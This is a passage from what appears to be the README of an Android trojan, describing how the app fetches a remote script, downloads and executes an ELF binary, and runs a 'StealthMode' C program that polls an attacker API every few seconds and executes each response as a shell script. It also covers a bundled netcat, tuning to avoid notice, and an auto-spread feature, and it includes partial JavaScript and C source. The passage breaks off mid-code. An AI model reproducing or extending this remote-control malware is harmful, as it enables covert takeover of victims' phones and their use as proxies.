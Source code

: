 
	**Example**:
	The trojan at first requests `/checkupdate.js`, let assumes this is an Android phone and we want to initiate the [StealthMode/BatteryBypass](#stealthmode) to avoid getting killed (Battery optimizations ...), the API then responde with something like:


	```javascript
	function sfunc1(){
	    window.MyOrangePlugin.download([{Link for ELF} ...], function(res){
	        sfunc2(...);
	    });
	}
	function sfunc2(...){
	    window.MyOrangePlugin.exec("chmod ... ", function(res){
	    	sfunc3(...);
	    });
	}
	function sfunc3(...){
	    window.MyOrangePlugin.poolexec({Here we start the binary the will keep interacting with the API}, function(res){
	    	...
	    });
	}
	```

	> The app also uses a slightly customized version of Cordova background mode plugin.



	2. ##### __StealthMode__:

		    + __runFrame.c__ : This is a simple C program that sends HTTP requests every few seconds to the API through a socket, saves the response to a shell file then makes a system call to run it.

		    + __toolbox.c__ : This is a standalone netcat

	The resulting binaries are statically linked to ensure stability and path independance. The importance of using `runFrame` instead of just running a JS loop in **index.html** doesn't only stop at the Battery issues explained previously but also for performance reasons. The app with this mode uses much less resources and is more reliable.

	The frequency of the requests is by default set at 5s, but it can be manipulated by the API (the server automatically makes `runFrame` slow down when there are no scheduled cmds by giving it `sleep 30` as a response), therefore, when the admin is controling a device or using it as a proxy a number of tasks will be schedules and the delay between each won't be significant, otherwise we don't want the client to keep sending frequent requests which would make it noticeable and resource consuming.

	> :warning: the API recognize whether the requests are coming from this mode from the __User-Agent: JustKidding__, so the responses to `/checkupdate.js` be compatible. Also the HTTP requests are only made while the phone is connected to **Wlan**, and there are two main reasons for that, the first is data mobile consumption which the OS will stop, the second is the autonomous spread capability (#AutoSpread)


	```C
	// void bzero(void *s, size_t n);
	#define bzero(s, n) memset((s), 0, (n))
	...
	strcat(reque, "&token=updated HTTP/1.1\r\nHost: {API_Host}\r\nUser-Agent: JustKidding\r\nConnection: close\r\n\r\n");
	char *routing = "ip route | grep wlan";
	...
	while (1){
		routingSTAT = system(routing);
		// grep exit status will only equal 0 if a wlan interface was listed
		if (routingSTAT==0){
			fd = socket_connect(argv[1], atoi(argv[2])); 
			write(fd, reque, strlen(reque));
			bzero(buffer, BUFFER_SIZE);